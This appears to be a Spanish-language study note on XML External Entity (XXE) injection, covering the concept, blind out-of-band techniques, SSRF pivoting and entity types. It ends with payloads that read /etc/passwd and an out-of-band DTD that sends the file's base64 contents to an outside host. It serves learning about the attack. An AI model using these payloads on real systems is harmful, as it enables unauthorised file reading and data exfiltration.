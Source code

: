 -- -
Cuando hablamos de XML External Entity (XXE) Injection, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una entidad XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “ir a ciegas” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un Document Type Definition (DTD) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo SSRF (Server-Side Request Forgery). Esta técnica de ataque puede permitir a un atacante escanear puertos internos en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener información sensible o incluso tomar el control de los servicios internos.
-- -
## Entidades:
Las entidades son una forma de representar un elemento de datos sin referenciar a los datos como tal, todo esto en un documento XML.

**Tipos de entidades:**
- Genéricas / Customizadas
- Externas (XXE)
- Predefinidas ---> General Entities
	- &lt (Lower Than);
	- &gt (Grater Than); 
- Entidades Parametricas ---> %nombre_entidad;
### Ejemplo de una estructura XML
<?xml version="1.0" encoding="UTF-8"?> ---> Declaración XML
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> ---> DTD (Document Type Definition)
```xml
<root>
	<name>fran</name>
	<tel>5454545as</tel>
	><email>fran@fran.com</email>
	><password>fran123</password>
</root>
```

-- -
## Payloads: 
```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
 ```

# XXE Out Of Band interaction (OOB) 
Estas mismas son lo mismo que las anteriores solo que a ciegas:
```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.0.229/testXXE">]>
```
**Archivo testXXE:**
```xml
<!DOCTYPE foo [ 
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> 
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.64.128/?file=%file;'>"> 
  %eval; 
  %exfil; 
]>

```
## Aclaraciones:
- Siempre hay que "invocar" el nombre de la entidad dentro de la estructura XML para asi ejecutar el payload. (&myFile dentro de algun tag). 

